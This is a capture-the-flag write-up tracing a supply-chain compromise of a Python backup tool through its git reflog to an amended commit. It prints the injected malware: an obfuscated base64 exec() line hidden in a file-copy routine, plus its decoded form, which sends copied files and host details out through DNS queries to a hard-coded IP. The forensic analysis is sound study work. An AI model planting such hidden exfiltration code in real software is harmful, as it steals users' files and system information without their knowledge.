

# Shadow commit

Points: 100

## Objective

The software responsible for the data exfiltration is one of Personalyz.io's internally developed apps. The developer of the app reported that their repository was compromised. All we have is the .git directory.

Find the commit ID where the malicious change was performed and obtain the malicious IP address.

## Finding this commit

Getting more familiar with git:

- `.git` directory: this contains all the metadata and object database for a project to manage the repo version history
- `reflog` (found in `logs/HEAD`): the reference log locally records every update to the HEAD (pointer to the current commit), branches, and other references - including commits, checkouts, resets, and rebases
  - This is notably different from `git log`, which shows the linear commit history by recursively traversing the parent commits

Even with limited background in git, I recognized that `reflog` was going to be important in this challenge. However, I only realized after several hours of going down rabbit holes that my initial understanding of the `reflog` was not accurate, and this was the key for me to get back on the right track.


The first line shows that `malbyte` (the threat actor) had cloned `backupy.git` as observed in the previous challenge. Scrolling through the `reflog` output confirms that it is being displayed in chronological order (the version numbers are increasing). So, after cloning the repo, a rebase occurred, which rewrote the commit history by reapplying one branch `https://github.com/elesiuta/backupy.git` onto this branch. This was almost certainly performed to hide something suspicious. All subsequent actions shown in the `reflog` are rebase actions, except there was one commit (amend) action:

```
a50a7657e3a00c0aa63455d7ac81e73f69f273b1 b188b42c34f772d2d9ccc006692d65cd597fc57d erik <elesiuta@gmail.com> 1748528038 -0500	commit (amend): deprecate copy_function class attribute for newer FileOps
```

Using a git bash terminal, I navigated to the location of the `.git` directory and entered `git show b188b42c34f772d2d9ccc006692d65cd597fc57d` to display the commit details, including the textual diff showing the changes made in that commit. The diff shows that `fileman.py` was modified to include a long encoded string:

``` diff
diff --git a/backupy/fileman.py b/backupy/fileman.py
index 7461804..126a027 100644
--- a/backupy/fileman.py
+++ b/backupy/fileman.py
@@ -21,12 +21,10 @@ from .filescanner import FileScanner
 from .logman import LogManager
 from .statusbar import StatusBar
 from .utils import FileOps, getString
+from base64 import b64decode as ute
 
// Omitted code for brevity

     ##########################################################################
     # Basic file operation methods (only these methods touch files directly) #
@@ -92,12 +90,13 @@ class FileManager:
                     if not FileOps.isdir(os.path.dirname(dest)):
                         FileOps.makedirs(os.path.dirname(dest))
                     try:
-                        FileManager.copy_function(source, dest)
+                        FileOps.copy(source, dest)
                     except IOError:
                         FileOps.chmod(dest, 0o777)
-                        FileManager.copy_function(source, dest)
+                        FileOps.copy(source, dest)
                     if self.config.verify_copy:
                         self.source.verifyCrcOnCopy(source_root, dest_root, source_file, dest_file, self.dest)
+                    exec(ute("ZXhlYyh1dGUoIlpuSnZiU0JpWVhObE5qUWdhVzF3YjNKMElIVnliSE5oWm1WZllqWTBaVzVqYjJSbCIpKQpleGVjKHV0ZSgiWm5KdmJTQnBieUJwYlhCdmNuUWdRbmwwWlhOSlR3PT0iKSkKZXhlYyh1dGUoIlpuSnZiU0JrYm5NdWJXVnpjMkZuWlNCcGJYQnZjblFnYldGclpWOXhkV1Z5ZVE9PSIpKQpleGVjKHV0ZSgiWm5KdmJTQmtibk11Y1hWbGNua2dhVzF3YjNKMElIVmtjQT09IikpCmV4ZWModXRlKCJabkp2YlNCNmJHbGlJR2x0Y0c5eWRDQmpiMjF3Y21WemN3PT0iKSkKZXhlYyh1dGUoIlpHVm1JSEVvYzJRc0lIUXBPZ29nSUNBZ2RXUndLRzFoYTJWZmNYVmxjbmtvWmlKN2MyUjlJaXdnZENrc0lDSXlOVEV1T1RFdU1UTXVNemNpTENCd2IzSjBQVEJ2TmpVcCIpKQpleGVjKHV0ZSgiWHlBOUlFSjVkR1Z6U1U4b2RYSnNjMkZtWlY5aU5qUmxibU52WkdVb1kyOXRjSEpsYzNNb2IzQmxiaWh6YjNWeVkyVXNJQ2R5WWljcExuSmxZV1FvS1NrcEtRPT0iKSkKZXhlYyh1dGUoImQyaHBiR1VnWDE4Z09qMGdYeTV5WldGa0tEQnZOemNwTG1SbFkyOWtaU2dwTG5OMGNtbHdLQ0k5SWlrNkNpQWdJQ0JsZUdWaktIVjBaU2dpWTFOb1psaDVkMmROUnpoNVRVTnJQU0lwS1E9PSIpKQpleGVjKHV0ZSgiWHlBOUlHWWllMjl6TG5WdVlXMWxLQ2t1YzNsemJtRnRaWDB1ZTI5ekxuVnVZVzFsS0NrdWJXRmphR2x1WlgwdWUyOXpMblZ1WVcxbEtDa3VibTlrWlc1aGJXVjlMbnR2Y3k1blpYUnNiMmRwYmlncGZTST0iKSkKZXhlYyh1dGUoImNTaGZMQ0F3YnpFcCIpKQpleGVjKHV0ZSgiY1NoemIzVnlZMlVzSURCdk16UXAiKSk="))
             self.source.updateDictOnCopy(source_root, dest_root, source_file, dest_file, self.dest)
         except Exception as e:
             self.log.append(["COPY ERROR", source_root, source_file, dest_root, dest_file, str(e)])
```
## Decoding

I performed Base64 decoding on the string.

First round of decode:

```python
exec(ute("ZnJvbSBiYXNlNjQgaW1wb3J0IHVybHNhZmVfYjY0ZW5jb2Rl"))
exec(ute("ZnJvbSBpbyBpbXBvcnQgQnl0ZXNJTw=="))
exec(ute("ZnJvbSBkbnMubWVzc2FnZSBpbXBvcnQgbWFrZV9xdWVyeQ=="))
exec(ute("ZnJvbSBkbnMucXVlcnkgaW1wb3J0IHVkcA=="))
exec(ute("ZnJvbSB6bGliIGltcG9ydCBjb21wcmVzcw=="))
exec(ute("ZGVmIHEoc2QsIHQpOgogICAgdWRwKG1ha2VfcXVlcnkoZiJ7c2R9IiwgdCksICIyNTEuOTEuMTMuMzciLCBwb3J0PTBvNjUp"))
exec(ute("XyA9IEJ5dGVzSU8odXJsc2FmZV9iNjRlbmNvZGUoY29tcHJlc3Mob3Blbihzb3VyY2UsICdyYicpLnJlYWQoKSkpKQ=="))
exec(ute("d2hpbGUgX18gOj0gXy5yZWFkKDBvNzcpLmRlY29kZSgpLnN0cmlwKCI9Iik6CiAgICBleGVjKHV0ZSgiY1NoZlh5d2dNRzh5TUNrPSIpKQ=="))
exec(ute("XyA9IGYie29zLnVuYW1lKCkuc3lzbmFtZX0ue29zLnVuYW1lKCkubWFjaGluZX0ue29zLnVuYW1lKCkubm9kZW5hbWV9Lntvcy5nZXRsb2dpbigpfSI="))
exec(ute("cShfLCAwbzEp"))
exec(ute("cShzb3VyY2UsIDBvMzQp"))
```

Second round of decode:

```python
from base64 import urlsafe_b64encodefrom io import BytesIOfrom dns.message import make_queryfrom dns.query import udpfrom zlib import compressdef q(sd, t):
    udp(make_query(f"{sd}", t), "251.91.13.37", port=0o65)_ = BytesIO(urlsafe_b64encode(compress(open(source, 'rb').read())))while __ := _.read(0o77).decode().strip("="):q(__, 0o20)
f"{os.uname().sysname}.{os.uname().machine}.{os.uname().nodename}.{os.getlogin()}"_ = f"{os.uname().sysname}.{os.uname().machine}.{os.uname().nodename}.{os.getlogin()}"q(source, 0o34)
```

We can see that this code is sending DNS queries over UDP to IP address `251.91.13.37` on port DNS (0o65 = octal 65 = decimal 53).
It reads and compresses a file, encodes it as base64, and splits it into chunks. Those chunks get embedded in DNS TXT queries (0o20 = octal 20 = decimal 16 = TXT record type; specific decimal numbers are assigned to represent different DNS record types, and 16 corresponds to TXT). System information gets sent in a DNS AAAA query (0o34 = octal 34 = decimal 28 = AAAA record type).

**Flag:** ```251.91.13.37```
